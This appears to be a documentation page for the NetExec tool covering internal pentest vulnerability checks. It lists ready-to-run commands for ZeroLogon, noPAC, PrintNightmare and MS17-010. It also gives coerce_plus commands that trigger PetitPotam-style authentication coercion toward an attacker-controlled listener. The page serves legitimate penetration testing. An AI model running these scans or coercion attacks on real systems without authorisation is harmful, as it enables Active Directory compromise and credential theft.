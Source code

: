 ```yaml
---
description: Check if host is vulnerable
---
```


# Scan for Vulnerabilities

When you start your internal pentest, these are the first modules you should try:

### ZeroLogon

`nxc smb <ip> -u '' -p '' -M zerologon`

### noPAC

`nxc smb <ip> -u 'user' -p 'pass' -M nopac`

{% hint style="warning" %}
You need a credential for noPAC vulnerability check.
{% endhint %}

### PrintNightmare

`nxc smb <ip> -u '' -p '' -M printnightmare`

### MS17-010 (Not tested outside LAB environment)

`nxc smb <ip> -u '' -p '' -M ms17-010`

Or, try them all at once! Just list each one: `-M zerologon -M printnightmare`

# Scan for Coerce Vulnerabilities

You can check for coerce vulnerabilities such as Petitpotam, DFSCoerce, PrinterBug, MSEven, and ShadowCoerce using the coerce_plus module. You can also use credentials to check for these vulnerabilities.

`nxc smb <ip> -u '' -p '' -M coerce_plus`

If a vulnerability is found, you can exploit it by using the same coerce_plus module

`nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP>`

To run all exploit methods at once, add the ALWAYS=true option

`nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> ALWAYS=true`

You can also check for a specific coerce method by specifying it

`nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam`

{% hint style="success" %}
Instead of using the METHOD option, you can use its short form M. Similarly, the argument LISTENER can be shortened to L.

This also applies to the names of the vulnerabilities when specifying a method.

M=p // Invalid, as both petitpotam and printerbug start with ‘p’ so modules gives error

M=pr // Matches printerbug

M=pe // Matches petitpotam

M=dfs // Matches dfscoerce

{% endhint %}

Check out what other modules are available via `nxc <protocol> -L`
